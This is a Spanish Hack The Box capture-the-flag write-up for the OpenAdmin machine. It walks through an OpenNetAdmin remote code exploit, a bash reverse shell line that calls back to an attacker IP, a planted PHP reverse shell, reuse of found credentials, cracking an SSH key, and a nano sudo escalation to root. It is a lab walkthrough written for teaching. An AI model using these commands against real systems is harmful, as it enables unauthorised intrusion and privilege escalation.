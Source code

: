 ```yaml
---
title: HTB OpenAdmin Write-up (Español)
tags: [HackTheBox]
image: /assets/images/OpenAdmin/1__iUvhxKVKR1HLGiQXZQEVYg.jpeg
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-openadmin-write-up-espa%C3%B1ol-9b29d4d36963)

OpenAdmin es una máquina basada en Linux que estuvo activa desde el 4 de Enero hasta el 2 de Marzo de 2020, en total tendremos que tomar control de 3 diferentes usuarios antes de poder tener acceso a root.  
Conseguiremos acceso inicial a través de una vulnerabilidad conocida en el sistema OpenNetAdmin que funciona en la máquina, luego de explorar los archivos a los que tenemos acceso encontraremos la contraseña del siguiente usuario, luego veremos que un tercer usuario está corriendo apache en un puerto que solo se puede acceder localmente, pero tenemos control sobre el directorio raiz de este, por lo que podremos subir una shell php y conseguir ejecución de comandos con ese tercer usuario, una vez el en tercer usuario extraeremos su clave privada de ssh, crackearmos la contraseña del archivo usando john y accederemos al este usuario a través de ssh, una vez ahí veremos que podemos ejecutar nano con privilegios de root sin ingresar una contraseña por lo que lo usaremos para elevar nuestros privilegios.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

```bash
masscan -e tun0 — rate=500 -p 0–65535 10.10.10.171  
nmap -sC -sV -p 80,22,59769 -Pn 10.10.10.171  
PORT      STATE SERVICE    VERSION  
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)  
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)  
|\_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)  
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: Apache2 Ubuntu Default Page: It works  
59769/tcp open  tcpwrapped  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```

Empezamos por el puerto 80, usamos gobuster para ver que directorios hay disponibles dentro de su página:  
`gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirb/common.txt` Esto nos devuelve 2 directorios “artwork” y “music”.  
Empezamos revisando `http://10.10.10.171/artwork`


![](/assets/images/OpenAdmin/1__5JFx__7A5RB03fgPbiL5vXg.png)


Tras revisarlo no encontramos nada interesante así que vamos a `http://10.10.10.171/music`

![](/assets/images/OpenAdmin/1__WOtUBgQkg1E6ESORmK__5MQ.png)


Si hacemos click en “Login” el sitio nos llevará a `http://10.10.10.171/ona/`

![](/assets/images/OpenAdmin/1__irAiBXTxNIHm__X7PE6wYKQ.png)


Luego de revisar el sitio nos damos cuenta que este sitio está corriendo [OpenNetAdmin](https://opennetadmin.com/), y como vemos en la imagen es la versión 18.1.1, así que usamos searchsploit para ver si encontramos alguna vulnerabilidad conocida.

![](/assets/images/OpenAdmin/1__brFYndnJEG986PQWaT1HWg.png)


# Ganando acceso

Usamos la vulnerabilidad disponible en [https://www.exploit-db.com/exploits/47691](https://www.exploit-db.com/exploits/47691) aunque para tener más control copiamos el payload a burp y probamos si funciona.

![](/assets/images/OpenAdmin/1__PPdxqoxd6tUMq1ECAODyuQ.png)
![](/assets/images/OpenAdmin/1__qqRTp8w3ducXDXVKbBJmPA.png)


Perfecto, para evitar problemas con las peticiones http creamos un archivo con una shell reversa en bash, lo llamaremos “rev.sh”, y su contenido será `bash -i >& /dev/tcp/10.10.14.148/54321 0>&1`.  
Iniciamos un servidor http con python 3:

![](/assets/images/OpenAdmin/1__vFOy70__3GUT2TF05yhO2rw.png)


Y enviamos una petición con burp que descargue nuestra shell y la envíe a bash para que se ejecute.

![](/assets/images/OpenAdmin/1__Snp3QNMa6o5n9do0uyEVIQ.png)


Y con esto tenemos nuestra shell inicial.

![](/assets/images/OpenAdmin/1__fJbhN2X5FGBEgSeHp2NBhQ.png)


# Movimiento lateral 1

El usuario con el que tenemos acceso es “www-data”, observamos que dentro de la máquina hay 2 usuarios disponibles “joanna” y “jimmy”, así que probablemente tendremos que ir a uno de ellos, empezamos buscando todos los archivos de configuración a los que tenemos acceso en busca de algunas credenciales, luego de un rato no encontramos con “database\_settings.inc.php” en el directorio `/opt/ona/www/local/config`.

![](/assets/images/OpenAdmin/1__FFhfbeieyO__iRvT0ftlZeQ.png)


Muy bien tenemos la contraseña de la base de datos, “n1nj4W4rri0R!”, pero resulta que está también es la contraseña del usuario “jimmy”, al cual podemos acceder usando `su jummy` (para hacer esto hay que estar dentro de una shell más interactiva, por lo que antes creamos una con el comando: `python3 -c “import pty;pty.spawn(‘/bin/bash’)”`).

![](/assets/images/OpenAdmin/1__N2k4tO958IyQMsjrgEVnvg.png)


# Movimiento lateral 2

En la etapa anterior habíamos enumerado la máquina con ayuda de [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) y habíamos observado dos cosas interesantes, primero que había un puerto que solo estaba escuchando localmente, el 52846, también estaba el 3306 pero ya que ese es de mysql no nos llamó la atención.

![](/assets/images/OpenAdmin/1__1ByFh__mE5vH5vQwTWHvt0g.png)


Y segundo que el usuario “joanna” era quien estaba corriendo el servicio de apache2 en la máquina.

![](/assets/images/OpenAdmin/1__SJaYYm0Mk4qGqhdMGZg8RQ.png)


De esto concluimos que joanna era quien estaba corriendo el servidor en el puerto 52846, ya que de ser quien corría el servidor en el puerto 80 habríamos conseguido acceso como ese usuario.

Después de explorar un rato encontramos que el directorio raíz del servidor apache se encuentra en `/var/www/internal` carpeta de la cual “jimmy” es dueño, por lo que creamos un archivo “.rev.php” y copiamos la reverse shell de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) (mientras hacíamos algunos pasos anteriores nuestra shell se cayó, pero ya que teníamos las credenciales de jimmy regresamos a través de ssh).

![](/assets/images/OpenAdmin/1__MULkKZJpzZaGYoX5cK__l__Q.png)


Ahora solo tenemos que iniciar nuestro listener en nuestra máquina atacante y hacer una petición a nuestra shell desde la máquina objetivo usando `curl 127.0.0.1:52846/.rev.php`.

![](/assets/images/OpenAdmin/1__BgA__V__lOyZIMu4MrcLV0ow.png)


Y tras esto conseguimos el archivo **_user.txt_**.

# Escalación de privilegios

Entramos a la carpeta “.ssh” de joanna y nos encontramos con sus llaves ssh.

![](/assets/images/OpenAdmin/1__TEbnQ6EdZGlE4iw9iMETGA.png)


Copiamos el contenido de su llave privada, id\_rsa (en este caso lo renombramos como “joanaid”), esta llave necesita una contraseña para ser usada, así que la convertimos a un formato que john pueda entender usando ssh2john, y procedemos a crackearla.

![](/assets/images/OpenAdmin/1__boQ756vYdGsX5iSWdojx0A.png)


Y la contraseña es “bloodninjas”, procedemos a conectarnos a través de ssh usando: `ssh -i joanaid joanna@10.10.10.171`.  
En el contexto anterior no podíamos usar “sudo” así que volvemos a revisar si tenemos alguna capacidad.

![](/assets/images/OpenAdmin/1__vq33eY0XNFdM8HO__5Cxeyw.png)


Bien, podemos usar nano para editar el archivo “/opt/priv”, revisamos si podemos usar esto para escalar privilegios consultando [gtfobins](https://gtfobins.github.io/gtfobins/nano/), y resulta que sí podemos, para hacerlos ejecutamos:

```
sudo nano /opt/priv  
Luego presionamos Ctrl + r y Ctrl + x  
reset; sh 1>&0 2>&0
```

Y con esto tendremos una shell con privilegios de root en la máquina, quizás no sea muy cómoda pero podríamos generar una nueva aunque a este punto ya no hace falta.

![](/assets/images/OpenAdmin/1__dSiwZS__gbQyqoNvgnJZrHg.png)


# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.